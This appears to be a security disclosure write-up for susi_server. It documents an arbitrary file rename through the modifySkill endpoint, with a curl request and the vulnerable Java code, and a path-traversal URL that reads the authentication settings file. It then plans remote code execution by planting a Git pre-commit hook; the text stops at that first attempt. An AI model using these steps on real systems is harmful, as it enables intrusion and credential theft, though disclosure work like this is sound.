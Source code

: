 
# Arbitrary File Write via Arbitrary Rename
Running
```bash
curl -X POST -F 'access_token=[YOUR_ACCESS_TOKEN]' -F 'imageChanged=false' \
-F 'image_name_changed=true' -F 'OldModel=general' -F 'OldGroup=Knowledge' \
-F 'OldLanguage=en' -F 'OldSkill=whois' -F 'NewModel=general' \
-F 'NewGroup=Knowledge' -F 'NewLanguage=en' -F 'NewSkill=hacked' \
-F 'content=ANYTHING' -F 'new_image_name=PATH_TO_SOME_FILE' -F \
'old_image_name=PATH_TO_SOME_FILE' 'http://localhost:4000/cms/modifySkill.json'
```
will rename the skill from `whois` (`-F 'OldSkill=whois'`) to `hacked` (`-F 'NewSkill=hacked'`).
But more importantly using `old_image_name` and `new_image_name` allows us to rename an arbitrary file!
So for an arbitrary write we just have to use the arbitrary `.txt` write and then rename the `.txt` file to whatever we want!

## Cause
`ModifySkillService.java` directly derives `new_image_name` and `old_image_name` from a `GET` parameter.
The resulting (user-controlled) paths are then used in `old_path.toFile().renameTo(new_path.toFile())` which makes this an arbitrary rename.
```java
String new_image_name = call.getParameter("new_image_name"); // Line 273
Path new_path = Paths.get(modified_language + File.separator + "images/" + new_image_name); // 275
[...]
String old_image_name = call.getParameter("old_image_name"); // 328
Path old_path = Paths.get(language + File.separator + "images/" + old_image_name);
if (!Files.exists(new_path)) {
    old_path.toFile().renameTo(new_path.toFile());
```

http://localhost:4000/cms/getImage.png?image=../settings/authentication.json

# Remote Code Execution (Using Git Hooks)
(If you know an easier way, let me know!)\
So how can we get RCE via arbitrary write?
I did not know any easier way, so I chose this way:\
`susi_server` has a Git repository for its skill data, so that all modifications to the skills are commited to Git.\
It uses JGit to periodically (every 60 seconds) perform the commits, so my idea was to (ab)use Git pre commit hooks to execute arbitrary code!

## First failed attempt
Plan of action:
1. Write a `.txt` file with the content `#!/bin/sh\nexec xcalc`.
2. Rename the `.txt` so that it ends up as `susi_skill_data/.git/hooks/pre-commit`.
3. **The rename causes a commit and our pre-commit hook gets triggered.**

